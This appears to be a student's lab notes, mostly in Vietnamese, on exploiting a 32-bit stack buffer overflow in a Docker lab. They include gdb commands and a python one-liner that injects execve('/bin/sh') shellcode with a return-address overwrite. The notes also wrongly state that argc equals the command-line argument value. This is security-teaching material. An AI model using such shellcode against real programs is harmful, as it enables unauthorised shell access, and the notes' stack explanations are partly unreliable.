 disas main
b *0x0804846b
r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+ 'a'*41+ '\xff\xff\xff\xff')")
r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+ 'a'*41+ '\xff\xff\xff\xff')")
x/80xb $esp
set *0xffffd728 =$esp
continue
x
x/80xb $esp
exit
exit
quit

- Tạo image trong folder có Dockerfile
`_StackFrame_`
- Trước khi hàm main được gọi, chương trình sẽ có vùng nhớ stack của hệ thống (PREVIOUS STACK FRAME)
- Khi hàm main được gọi, các đối số argv và argc sẽ được push vào trong stack theo thứ tự 
    + argv chứa địa chỉ của chuỗi tham số
    + argc số đối số nhập trên dòng lệnh chương trình được nhập vào  
    + Mỗi ô là 4 byte (32bit)
- Sau đó eip (Return address) và ebp (Frame pointer) sẽ được push vào stack 
- Sau đó trong hàm main thực hiện lệnh 
    + push ebp
    + mov ebp, esp ( lấy ebp = giá trị esp)
- Sau đó ebp bị trừ đi bằng với số ô nhớ trong hàm main 
- Các biến local vars trong hàm main sẽ được push vào

docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab


`flag.c`
|      |    
|      |buffer[16]
|      |
|      |    
|      |
|      |
|      |flag
|      |ebp(Frame pointer)
|      |eip(return address)
|      |argc
|______|argv
- Nếu buffer chứa > 16 ký tự sẽ xảy ra trg hợp buffer overflow và ghi đè xuống biến flag
- Command: 
    + gcc -g flag.c -o flag.out -fno-stack-protector -mpreferred-stack-boundary=2
    + ./flag.out 123456789 (lúc này argc = 123456789, còn argv[0] = ./flag, argv[1] = 123456789)
    + ./flag.out $(python -c "print('a'*16)")
- `gdb` Command
    + gdb flag.out
    + disas main
    + r $(python -c "print('a'*18)")
    + Đặt breakpoint sau lệnh sub esp và sau khi sao chép chuỗi: break *0x0804843e break *0x0804845d
    + x/32xb $esp: để xem 32byte(8 ô stack frame) từ esp đi lên 
    + continue để tiếp tục, sau đó sẽ sao chép chuỗi
    + x/32xb $esp: để xem 32byte(8 ô stack frame) từ esp đi lên :